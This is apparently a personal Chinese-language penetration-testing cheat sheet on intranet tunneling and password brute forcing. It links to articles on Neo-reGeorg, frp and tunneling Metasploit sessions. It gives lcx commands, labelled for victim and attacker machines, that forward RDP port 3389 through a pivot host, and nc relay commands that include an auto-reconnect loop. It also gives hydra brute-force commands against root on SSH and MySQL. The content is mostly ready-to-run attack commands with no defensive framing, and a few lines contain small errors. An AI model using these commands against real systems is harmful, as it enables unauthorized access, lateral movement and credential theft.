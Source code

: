 https://gitee.com/windyjxx/projects


## 内网穿透
[Neo-reGeorg -- php](https://blog.csdn.net/qq_42094992/article/details/115143527)
frp/nps

[tcptunnel 利用 TCP 隧道让内网不出网主机上线 MSF](https://mp.weixin.qq.com/s/iDAAC3BRPj2YaWkNZPWEDQ)

-- for xp/2003
3proxy 7.x / CCProxy
nc
[lcx](https://github.com/UndefinedIdentifier/LCX)

[内网渗透中隧道渗透技术](https://blog.csdn.net/qq_17204441/article/details/88834324)
[内网渗透之主机出网OR不出网隧道搭建](https://www.freebuf.com/articles/web/255801.html)
### lcx
```bash
靶机执行
Lcx.exe -slave 192.168.100.3 12345 192.168.100.128 3389 (把攻击机的12346数据 传递给靶机的3389)
攻击机执行
Lcx.exe -listen 12345 12346 (把攻击机12345端口接收到的数据转发到哦12346端口)
```
### nc
[nc端口转发](https://ssooking.github.io/2020/05/nc%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/)
```bash
# 跳板机: 8888 转到 153 的 22端口上
nc -l -p 8888 -c "nc 192.168.19.153 22"
```

自动循环连接
```bash
while :; do (nc -l -p 8888 -c "nc 192.168.19.153 22"); done
```


## 爆破

### hydra

__ssh__

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

__mysql__

hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql

